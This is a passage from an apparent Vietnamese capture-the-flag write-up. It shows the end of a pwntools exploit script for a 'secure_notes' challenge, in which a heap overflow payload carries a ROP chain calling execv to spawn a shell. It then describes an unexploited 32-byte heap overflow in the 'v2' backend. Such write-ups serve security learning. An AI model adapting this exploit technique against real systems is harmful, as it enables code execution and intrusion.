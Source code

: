 ```python
delete_note(b"/bin/sh", b"newgate", False, None)

add_new_note(b"lalala1", b"lalala1", False, None, 0x90-16, b"aaa")

add_new_note(b"newgate2", b"newgate2", False, None, 1, b"aaaaa")
add_new_note(b"newgate2", b"newgate2", True, b"123", 388+184, b"A"*4 + p64(ret)*47 + p64(pop_rdi) + p64(new_gate) + p64(pop_rsi) + p64(0) + p64(exe.sym["execv"]) + b"A"*8 + p64(0x91) + b"newgate2" + b"\x00"*56 + b"newgate2" + b"\x00"*24 + p64(0x7f) + p64(0) + p64(stack_note_main_ret) + p64(new_gate) + p64(shin24))

edit_note(b"lalala1", b"lalala1", False, None, 20, b"aaaaaaa")
delete_note(b"lalala1", b"lalala1", False, None)

edit_note(b"newgate2", b"newgate2", False, None, 0x90-16, b"aaaaaaa")

note_sync(0)

pause()
note_sync(0)

io.interactive()
```

## secure_notes v2

Ở bài này, mình đã xác định được bug của backend tuy nhiên do một một số việc cá nhận nên mình đã không thể tiếp tục việc exploit nó

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/140a040f-f2b9-497c-865d-3daa0a32d172)

Khi thực hiện commit note lên server, việc một note có được mã hóa hay không sẽ được check dựa trên note được tìm thấy ở backend, nghĩa là nếu như note đang commit lên server và note được tìm thấy trên server có thuộc tính isencrypted khác nhau thì khi thực hiện malloc để update, sẽ có 32 byte (`SHA256_DIGEST_LENGTH`) bị overflow ra khỏi buffer, dẫn đến heap-based buffer overflow.
